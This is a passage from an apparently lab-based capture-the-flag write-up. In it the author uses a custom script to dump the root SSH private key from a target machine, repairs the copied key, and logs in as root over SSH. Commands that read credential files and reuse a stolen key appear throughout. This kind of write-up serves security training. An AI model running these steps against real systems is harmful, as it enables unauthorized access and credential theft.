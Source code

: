 ```
./known-plaintext.py /root/.ssh/id_rsa 10
```

Looks like it's reading something! there must be a private key there. How lucky :four_leaf_clover:

To get the whole SSH key, I set a much larger expected file size:

> I checked some SSH private keys that I had locally using, and they were all less than 6000 characters long. To do this, I ran `find /home/kali -name id_rsa -exec wc -c {} +  `

```
./known-plaintext.py /root/.ssh/id_rsa 6000
```

![getting ssh key](getting%20ssh%20key.png)

It took some time, but the script began dumping the file contents. So happy it works! All in all, it took about ten minutes to run.

I copy-pasted the dumped SSH private key to my attacker machine, then tried connecting using the key:

```bash
ssh -i id_rsa root@10.10.11.220
```

But unfortunately I was getting an error:

```
Load key "id_rsa": error in libcrypto
```

The cause must be a malformed key. Upon looking into it, I discovered that I accidentally filled it with whitespace. Probably because I copy-pasted it directly from `tmux` onto my attacker machine in `vim`. I'll trim out the horizontal whitespace:

```bash
cat id_rsa | tr -d "[:blank:]" > id_rsa_trimmed
```

Checking the file, it looks like that accidentally removed spaces from the first and last lines... Adjust them back to this:

```
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```

Then change the  permissions on the private key:

```bash
chmod 700 id_rsa_trimmed
```

Finally, I'll attempt again to connect using SSH:

```bash
ssh -i id_rsa_trimmed root@10.10.11.220
```
